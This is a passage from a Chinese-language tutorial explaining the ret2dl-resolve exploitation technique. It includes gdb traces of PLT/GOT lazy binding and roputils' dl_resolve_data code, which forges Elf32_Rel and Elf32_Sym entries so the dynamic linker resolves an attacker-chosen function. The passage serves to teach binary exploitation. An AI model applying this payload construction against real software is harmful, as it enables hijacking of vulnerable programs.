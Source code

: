 OK，以上便是相关背景知识。现在我们来看看在call read@plt时具体发生了什么。  
```
gdb-peda$ x/3i read  0x80482f0 <read@plt>:        jmp    DWORD PTR ds:0x804970c
   0x80482f6 <read@plt+6>:      push   0x0
   0x80482fb <read@plt+11>:     jmp    0x80482e0
gdb-peda$ x/wx 0x804970c
0x804970c <read@got.plt>:       0x080482f6
gdb-peda$ x/2i 0x80482e0
   0x80482e0:   push   DWORD PTR ds:0x8049704
   0x80482e6:   jmp    DWORD PTR ds:0x8049708
```
在第一次调用时，jmp read@got.plt会跳回read@plt，这是我们已经知道的。接下来，会将参数push到栈上并跳至.got.plt+0x8，这相当于调用以下函数：  
```
_dl_runtime_resolve(link_map, rel_offset);
```
_dl_runtime_resolve则会完成具体的符号解析，填充结果，和调用的工作。具体地。根据rel_offset，找到重定位条目：  
```
Elf32_Rel * rel_entry = JMPREL + rel_offset;
```
根据rel_entry中的符号表条目编号，得到对应的符号信息：  
```
Elf32_Sym *sym_entry = SYMTAB[ELF32_R_SYM(rel_entry->r_info)];
```
再找到符号信息中的符号名称：  
```
char *sym_name = STRTAB + sym_entry->st_name;
```
由此名称，搜索动态库。找到地址后，填充至.got.plt对应位置。最后调整栈，调用这一解析得到的函数。  

于是，我们的思路是，提供一个很大的数作为rel_offset给_dl_runtime_resolve，使得找到rel_entry落在我们可控制的区域内。同理，构造伪条目，使得所对应的符号信息、符号的名称，均落在我们可控的区域内，那么就可以解析我们所需的函数地址并调用了。值得注意的是，在解析过程中，还会对ELF32_R_TYPE(rel_entry->r_info)等进行检查。但这些数据我们只需仿照正常的来构造即可，重点是对应的伪条目的index应计算正确。  

作为实例，我们来看看roputils里是如何构造伪条目的。首先是函数dl_resolve_data。其定义如下：  
``` python

    def dl_resolve_data(self, base, name):
        jmprel = self.dynamic('JMPREL')
        relent = self.dynamic('RELENT')
        symtab = self.dynamic('SYMTAB')
        syment = self.dynamic('SYMENT')
        strtab = self.dynamic('STRTAB')

        addr_reloc, padlen_reloc = self.align(base, jmprel, relent)
        addr_sym, padlen_sym = self.align(addr_reloc+relent, symtab, syment)
        addr_symstr = addr_sym + syment

        r_info = (((addr_sym - symtab) / syment) << 8) | 0x7
        st_name = addr_symstr - strtab

        buf = self.fill(padlen_reloc)
        buf += struct.pack('<II', base, r_info)                      # Elf32_Rel
        buf += self.fill(padlen_sym)
        buf += struct.pack('<IIII', st_name, 0, 0, 0x12)             # Elf32_Sym
        buf += self.string(name)

        return buf
```
从base开始便是用户可控的区域，也是用来构造伪Elf32_Rel, 伪Elf32_Sym，和符号名称的地方。具体的存放地址，还是根据数组条目的大小进行了对齐。而需要检查的地方，则全部硬编码了，只需计算这些伪条目对应在数组中的index填充即可。  

